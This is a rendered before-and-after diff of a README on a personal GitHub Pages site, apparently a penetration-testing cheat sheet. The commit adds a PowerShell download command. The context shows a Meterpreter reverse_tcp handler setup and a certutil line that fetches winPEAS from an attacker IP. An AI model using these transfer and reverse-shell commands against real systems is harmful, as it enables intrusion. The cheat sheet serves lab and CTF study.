

Before and after one commit to dayaramb/dayaramb.github.io, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -25,6 +25,10 @@ use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST
 ### Windows Copy command
 ```bash
 certutil.exe -urlcache -split -f http://10.10.14.8/winPEAS-x64.exe winPEAS-x64.exe
+```
+### Download using powershell:
+```
+powershell -c "Invoke-WebRequest -Uri URL -OutFile FILENAME"
 ```
 
 ### PHP System Command:
````
